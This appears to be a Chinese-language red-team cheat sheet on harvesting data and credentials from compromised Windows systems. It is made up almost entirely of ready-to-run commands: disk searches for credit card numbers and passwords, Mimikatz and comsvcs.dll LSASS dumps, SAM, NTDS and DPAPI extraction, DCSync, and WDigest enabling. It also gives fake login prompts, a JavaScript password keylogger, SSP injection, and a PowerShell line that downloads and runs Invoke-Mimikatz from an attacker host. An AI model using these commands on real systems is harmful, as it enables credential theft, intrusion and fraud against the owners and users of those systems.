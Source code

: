 ### 数据收集

1. 扫描文件系统

```bash
Get-ChildItem -Path C:\ -Include *.doc, *.xls, *.pdf -Recurse
```

2. 查找敏感文件

```bash
Get-ChildItem -Path C:\ -Recurse | Select-String -Pattern "password|confidential|credit card"
```

3. 查找敏感信息

信用卡号

```bash
Get-ChildItem -Path C:\ -Recurse -Include *.txt, *.docx, *.csv | ForEach-Object {Select-String -Path $_.FullName -Pattern "\b\d{4}-\d{4}-\d{4}-\d{4}\b"}
```

```bash
find / -type f -print0 | xargs -0 grep -l -P '\b(?:4[0-9]{12}(?:[0-9]{3})?|5[1-5][0-9]{14}|3[47][0-9]{13}|3(?:0[0-5]|[68][0-9])[0-9]{11}|6(?:011|5[0-9]{2})[0-9]{12}|(?:2131|1800|35\d{3})\d{11})\b'
```

4. 数据库搜索

```bash
SELECT * FROM customers WHERE credit_card_number IS NOT NULL;
```

### 凭据转储

1. 使用Mimikatz从Lsass转储凭证

[Mimikatz](https://github.com/gentilkiwi/mimikatz)

```bash
privilege::debug
sekurlsa::logonpasswords
```

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://攻击者主机IP地址/nishang/Gather/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

2. 任务管理器转储Lsass

以管理员权限运行任务管理器，并在运行的进程中查找名为lsass.exe的进程，然后右键单击它，创建转储文件

```bash
sekurlsa::minidump C:\Users\ADMINI~1\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```

Lsass进程已在Windows10及Windows11版本中的任务管理器重命名为 Local Security Authority Process

3. comsvcs.dll

```bash
Get-Process lsass
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 712 C:\lsass.dmp full
sekurlsa::minidump C:\lsass.dmp
sekurlsa::logonpasswords
```

4. -patch参数

```bash
privilege::debug
lsadump::lsa -patch
sekurlsa::logonpasswords -patch
```

5. 令牌模拟

```bash
privilege::debug
token::elevate
lsadump::secrets
```

6. LSA Secrets

HKEY_LOCAL_MACHINE\SECURITY + 允许本地管理员拥有完全控制权限

```bash
privilege::debug
lsadump::secrets
```

7. 注册表转储SAM

```bash
reg save HKLM\SYSTEM system
reg save hklm\sam sam
```

```bash
privilege::debug
lsadump::sam /system:system /sam:sam
```

```bash
samdump2 system sam
impacket-secretsdump -sam sam -system system LOCAL
```

8. esentutl.exe凭据转储

```bash
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\sam
esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d c:\system
```

9. 缓存域凭据

HKEY_LOCAL_MACHINE\SECURITY\Cache

```bash
privilege::debug
lsadump::cache
```

```bash
hashcat -a 0 -m 1000
john hash
```

10. NTDS

```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\NTDS' q q"
Get-ChildItem C:\NTDS\ -Recurse
```

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
impacket-secretsdump 域/用户名:'密码'@IP地址 -just-dc-ntlm
```

11. 卷影复制

[提权](提权.md)

12. 转储DPAPI数据

```bash
privilege::debug
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```

```bash
SYSTEM + Mimikatz
sekurlsa::dpapi
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect /masterkey:KEY
```

```bash
Domain Admin + Mimikatz
lsadump::backupkeys /export
dpapi::masterkey /in:"C:\Users\用户名\AppData\Roaming\Microsoft\Protect\SID\GUID" /pvk:.pvk
```

13. WDigest

```bash
privilege::debug
sekurlsa::wdigest
```

```bash
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
gpupdate /force
```

```bash
crackmapexec smb IP地址 -u 'Administrator' -p '密码' -M wdigest -o ACTION=enable

meterpreter:
load kiwi
creds_wdigest
```

14. Hook浏览器

```bash
t=""; $('input[type="password"]').onkeypress = function (e) { t+=e.key; console.log(t); localStorage.setItem("pw", t); }
localStorage.pw
```

15. 无线凭据

```bash
netsh wlan show profiles
netsh wlan show profile name="ProfileName" key=clear
```

16. 网络钓鱼凭据

+ Metasploit框架

```bash
run post/windows/gather/phish_windows_credentials
```

+ 虚假登录屏幕

[fakelogonscreen](https://github.com/bitsadmin/fakelogonscreen/releases)

[SharpLocker](https://github.com/Pickfordmatt/SharpLocker/releases/tag/v0.5)

+ Empire

```bash
usemodule collection/prompt
execute
```

```bash
usemodule collection/toasted
execute
```

+ PowerShell脚本

[Invoke-CredentialsPhish](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-CredentialsPhish.ps1)

```bash
Invoke-CredentialsPhish
```

[Invoke-LoginPrompt.ps1](https://raw.githubusercontent.com/enigma0x3/Invoke-LoginPrompt/master/Invoke-LoginPrompt.ps1)

```bash
Invoke-LoginPrompt.ps1
```

+ lockphish

[lockphish](https://github.com/theadp/lockphish-new)

```bash
bash lockphish.sh
```

17. DCSync

```bash
privilege::debug
lsadump::dcsync /user:Administrator
lsadump::dcsync /all
lsadump::dcsync /domain:域 /user:Administrator
```

```bash
impacket-secretsdump 域/用户名:'密码'@目标主机IP地址
```

### Other

[network_password_recovery](https://www.nirsoft.net/utils/network_password_recovery.html)

[DecryptAutoLogon](https://github.com/securesean/DecryptAutoLogon/blob/main/DecryptAutoLogon/bin/Release/DecryptAutoLogon.exe)

1. 剪贴板

Empire：

```bash
usemodule collection/clipboard_monitor
execute
```

Metasploit:

```bash
load extapi
clipboard_monitor_start
clipboard_monitor_dump
```

2. SSP

(1)

/usr/share/windows-resources/mimikatz/x64 > C:\Windows\System32

```bash
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
type C:\Windows\System32\kiwissp.log
```

(2)Mimikatz

```bash
privilege::debug
misc::memssp
type C:\Windows\System32\mimilsa.log
```

(3)Metasploit

```bash
kiwi_cmd misc::memssp
shell
RunDll32.exe user32.dll,LockWorkStation
type C:\Windows\System32\mimilsa.log
```

3. 虚假服务

```bash
search auxiliary/server/capture/
```
